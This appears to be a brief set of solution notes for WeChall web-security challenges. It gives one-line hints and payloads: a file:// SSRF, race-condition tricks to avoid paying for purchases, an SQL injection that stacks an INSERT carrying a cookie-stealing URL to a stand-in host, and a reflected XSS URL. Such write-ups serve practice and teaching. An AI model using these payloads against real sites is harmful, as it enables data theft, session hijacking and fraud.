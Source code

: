 # PHP 0815

Type convert: `(int)$show`

# Crappyshare

SSRF, we can use `file://soultuin.php` to get result

# Live LFI

Similar to Live RFI

# Quangcurrency

Concurrency issue, the add money button spends significantly more time. We can first click add money button and immediately click purchase button. Our spend money will be reset due to concurrency issue

# No Escape
Indeed no escape;
```
bill`=111;`george`=`george
```

# The Cookie is a lie

It always says I exceeded available chances for PM. I think the id is `1 and 2=1; insert into experience(id, filename) VALUES (233,'http://test.cake/steal_cookie.php?cookie=docuement.cookie'); select * from users where id=233`

# Yourself PHP

My answer should be correct… but I spend additional time to close a tag. Stupid check: `https://www.wechall.net/challenge/yourself_php/index.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E`

# Stop up

key word: *ignore_user_abort*. When the purchase page shows purchasing, stops it. You balance won’t be reduced

# Brainfucked

Find a jsfuck decoder and you will get the content

# Regex Mini
